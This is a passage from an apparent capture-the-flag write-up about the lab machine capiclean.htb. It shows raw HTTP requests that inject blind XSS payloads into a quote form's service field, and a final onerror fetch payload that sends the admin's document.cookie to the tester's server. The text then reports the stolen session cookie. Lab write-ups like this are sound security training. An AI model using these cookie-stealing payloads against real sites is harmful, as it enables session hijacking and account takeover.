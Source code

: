 
I tried to send some XSS payloads as a quote. The email field required a valid email in the UI, so I used Caido to tamper with the email and the service fields.

```http
POST /sendMessage HTTP/1.1
Host: capiclean.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 94
Origin: http://capiclean.htb
Connection: keep-alive
Referer: http://capiclean.htb/quote
Upgrade-Insecure-Requests: 1

service=<img src="http://10.10.14.104/service" />&email=<img src="http://10.10.14.104/mail" />
```

I started a web server on my machine and after a few seconds I got a request. There was something looking at my requests, and the service field was vulnerable.

```bash
$ python -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.129.103.132 - - [23/Jun/2024 11:40:23] code 404, message File not found
10.129.103.132 - - [23/Jun/2024 11:40:23] "GET /service HTTP/1.1" 404
```

With that information, I tried some payloads from [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection). I managed to get some scripts loaded from my server, but they did not appear to be executed on the admin's browser.

I tried to run some JS in the error handling of an image.

```http
POST /sendMessage HTTP/1.1
Host: capiclean.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 96
Origin: http://capiclean.htb
Connection: keep-alive
Referer: http://capiclean.htb/quote
Upgrade-Insecure-Requests: 1

service=<img src="" onerror="fetch('http://10.10.14.104/err?c='%2Bdocument.cookie)">&email=email
```

This worked, and I had the session cookie of the admin that looked at my request.

